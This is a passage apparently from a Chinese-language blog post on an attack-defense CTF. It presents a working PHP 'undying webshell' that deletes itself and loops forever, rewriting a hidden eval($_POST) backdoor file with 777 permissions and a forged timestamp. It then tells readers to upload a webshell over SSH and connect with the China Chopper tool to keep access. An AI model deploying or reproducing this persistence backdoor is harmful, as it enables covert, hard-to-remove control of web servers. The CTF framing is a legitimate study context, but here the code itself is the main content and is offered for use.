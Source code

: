 ````php
<?php

    set_time_limit(0);
    //设定一个程式所允许执行的秒数，如果到达限制的时间，程式将会传回错误,如果将秒数设为0，表示无时间上的限制。
    ignore_user_abort(1);
    //调用ignore_user_abort（）函数声明即使客户机断开不终止脚本的执行。
    unlink(__FILE__);
    //删除自身
    //file_put_contents(__FILE__,'');

    while(1){

        file_put_contents('/home/wwwroot/default/templates/.xiao2.php','<?php @eval($_POST[xiao2]);?>');
        //在xxx目录写入一个名字为.xiao2.php的隐藏文件，内容为<?php @eval($_POST[xiao2]);?>
        system('chmod 777 .xiao2.php');
	//附加777权限
        touch("/home/wwwroot/default/templates/.xiao2.php", mktime(20,15,1,11,17,2017));
        usleep(100);
	//每隔一秒运行一次
    }

?>
````

Web2目录结构 <br>

![images](/images/2018-06-01/hm21.png)

---

随便一个能正常浏览的目录都可以，**ssh登录**后用**xftp**扔一只马(xiao.php) <br>

然后用菜刀连接，<br>

**PS：扔马的好处是，维持自己的权限，在网站奔溃之后还可以进行操作，user不能操作的，马子可以补上这个缺口** <br>

然后通过菜刀上传不死马（no_die_shell.php）<br>

![images](/images/2018-06-01/hm12.png)

---